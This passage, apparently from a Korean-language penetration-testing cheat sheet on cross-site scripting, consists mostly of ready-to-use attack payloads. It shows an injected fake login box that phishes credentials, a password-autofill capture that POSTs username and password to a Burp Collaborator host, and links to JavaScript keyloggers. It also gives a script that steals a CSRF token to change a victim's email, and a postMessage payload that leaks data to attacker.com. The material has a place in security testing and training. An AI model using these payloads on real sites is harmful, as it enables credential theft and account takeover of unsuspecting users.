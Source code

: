 ```python
}
```
_짧은 시간은 응답 포트를 나타냅니다._ _더 긴 시간은 응답이 없음을 나타냅니다._

Chrome에서 금지된 포트 목록을 [**여기**](https://src.chromium.org/viewvc/chrome/trunk/src/net/base/net\_util.cc)에서 확인하고, Firefox에서는 [**여기**](https://www-archive.mozilla.org/projects/netlib/portbanning#portlist)에서 확인할 수 있습니다.

### 자격 증명을 요청하는 상자
```markup
<style>::placeholder { color:white; }</style><script>document.write("<div style='position:absolute;top:100px;left:250px;width:400px;background-color:white;height:230px;padding:15px;border-radius:10px;color:black'><form action='https://example.com/'><p>Your sesion has timed out, please login again:</p><input style='width:100%;' type='text' placeholder='Username' /><input style='width: 100%' type='password' placeholder='Password'/><input type='submit' value='Login'></form><p><i>This login box is presented using XSS as a proof-of-concept</i></p></div>")</script>
```
### 자동 입력 비밀번호 캡처
```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
### 키클로거

GitHub에서 몇 가지 다른 것을 찾았습니다:

- [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
- [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
- [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
- Metasploit의 `http_javascript_keylogger`도 사용할 수 있습니다.

### CSRF 토큰 도용
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
var changeReq = new XMLHttpRequest();
changeReq.open('post', '/email/change-email', true);
changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
### PostMessage 메시지 도용하기
```markup
<img src="https://attacker.com/?" id=message>
<script>
window.onmessage = function(e){
document.getElementById("message").src += "&"+e.data;
</script>
```